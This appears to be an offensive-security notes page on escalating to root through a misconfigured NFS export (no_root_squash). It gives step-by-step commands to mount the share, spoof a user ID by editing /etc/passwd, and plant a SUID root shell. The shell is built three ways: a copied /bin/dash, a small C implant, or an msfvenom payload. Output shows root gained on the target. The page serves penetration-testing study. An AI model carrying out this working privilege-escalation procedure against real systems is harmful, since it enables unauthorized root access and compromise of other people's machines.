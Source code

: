 # Living off the Land

## 01 - Detect

Files were made with NFS that derives the user's ID. If the user is `root`, and **root squashing** is enabled, the ID will instead be set to the `nobody` user. Whatever we have enumerated the server through active fingerprint (go to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Cross Platform/File Server/NFS|NFS enumeration phase]] section to learn the practical methods) or we have compromised the Linux machine with least privileges.

Let's see the NFS configuration in the `/etc/exports`.

```
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Looks like the `/tmp` directory has `no_root_squash` enabled. Through the attacker's machine we have run as `root` and create a directory to mount point the NFS server.

## 02 - Exploit

Mount the **Network File System (NFS)** from the vulnerable Linux systme

```
userware@hackware-os:~$ sudo su
root@hackware-os:~# mkdir /mnt/nfs
root@hackware-os:~# mount -o rw,vers=2 <IP>:</directory_name> /mnt/nfs
```

### 2.1 - Spoof User ID

TODO: Fill in the missing steps when spoofing the UID.

```
root@hackware-os:~# ls -l /mnt/nfs/

root@hackware-os:~# useradd -m nfsuser -s /bin/bash

root@hackware-os:~# grep <nfs_user_UID> /etc/passwd
```

The syntax as it shows.

```
root@hackware-os:~# sed -ie 's/<current_user_UID>/<target_UID_to_spoof>/g' /etc/passwd
```

Spoof the UID.

```
root@hackware-os:~# sed -ie 's/1001/1014/g' /etc/passwd
```

Switch user account then read the file.

```
root@hackware-os:~# su nfsuser

nfsuser@hackware-os:~$ id

nfsuser@hackware-os:~$ cat /mnt/nfs/file.txt
```

### 2.2 - Copy Unix Shell Prompt

We can just copy the POSIX shell prompt (`/bin/dash`) to the target.

```
root@hackware-os:~# cp /bin/dash /mnt/nfs/implant

root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

### 2.3 - Copy Implant

We can compile our binary in C language using the previous technique about taking advantage of the Cron Job to execute a SUID `/bin/bash`.

```
root@hackware-os:~# cat implant.c
int main() {
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
root@hackware-os:~# gcc implant.c -o implant
```

We can either generate a `msfvenom` payload.

```
root@hackware-os:~# msfvenom -p linux/x86/exec cmd="/bin/bash -p" -f elf -o /mnt/nfs/implant
```

Change file permissions.

```
root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

Now if we return to the compromised machine you can see it has a sticky bit of SUID that can be taken advantaged of all because of enabling the `no_root_squash` from the NFS configuration.

```
root@hackware-os:~# ls -lh /mnt/nfs/implant
-rwsr-sr-x 1 root root 16K Jan 21 20:29 /mnt/nfs/implant
```

Now if we check on the compromised target side we can see our shell that has been successfully copied via root

```
$ ls -lh /home/ubuntu/sharedfolder/
total 16K
-rwsr-sr-x 1 root root 16K Jan 22 01:29 implant
$ /home/ubuntu/sharedfolder/implant -p
# whoami
root
```

## 03 - Cleanup

```
# exit
$ whoami
user

root@hackware-os:~# rm /mnt/nfs/implant
root@hackware-os:~# umount /mnt/nfs
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Cross Platform/File Server/NFS|Manual NFS: Network Protocols]]

- [Hacktricks: NFS no_root_squash/no_all_squash misconfiguration PE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)